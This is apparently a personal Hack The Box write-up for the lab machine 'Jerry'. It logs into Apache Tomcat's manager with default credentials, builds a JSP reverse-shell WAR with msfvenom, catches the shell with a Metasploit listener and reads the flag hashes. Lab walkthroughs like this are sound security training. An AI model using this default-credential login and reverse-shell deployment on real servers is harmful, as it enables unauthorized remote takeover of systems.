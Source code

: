 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Jerry
tags: []
---
```

**Start 20:48 22-08**

---
```
10.10.10.95
```
## Recon

==Nmap==
I discovered that there is only one port open on the target machine `8080` so I decided to check only that one
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -T5 -vvvv -p8080 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 19:49 IST

Nmap scan report for 10.10.10.95
Host is up, received user-set (0.085s latency).
Scanned at 2024-08-22 19:49:40 IST for 12s
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
We see that it runs `Apache Tomcat version 1.1`.

## 8080/TCP - HTTP

I went to the website and went to the `/manager/html` endpoint where I found some default creds.

![](../../../assets/9b31ff9bad5ad59574b59edada30fd29.png)

```
tomcat:s3cret
```

When prompted to sign in I used these creds and got right in:

![](../../../assets/5cb7a76c966fa55c68f7ca6cfdcc2566.png)

![](../../../assets/6faa9b8f038c52edacce435e53f720c4.png)

We see that we can deploy `.war` files on here. When we scroll to the bottom of the website we find some details about the version running:

![](../../../assets/52fa7e69c76ac28e1bca3a8b5f37dda1.png)

I looked up some `RCE` exploits and found [this site to be useful](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/):

![](../../../assets/9cd28607be295b6b3fda9234e32a48d6.png)

So we too will run the same payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
```

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: shell.war
```

Now I will start a `metasploit listener`:

```bash
msfconsole

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be sp
                                     ecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.8
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.8:9999
```

Now I upload the `.war` file to the `Apache Tomcat manager` then click deploy :

![](../../../assets/ac1665951c37e917530c0c1472fc40c7.png)

Click on it and the connection should pop up in `metasploit`:

![](../../../assets/3ee371382b8791042931205b320c8095.png)


## Flags

This will be a combination of 2 flags in one place, simply head to the following directory and there will be one file with both flags in them:

```powershell
C:\Users\Administrator\Desktop\flags
```

```powershell
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```


![](../../../assets/5e6ce1bd0ee7f645442e27d06941a6c5.png)

---

**Finished 21:09 22-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
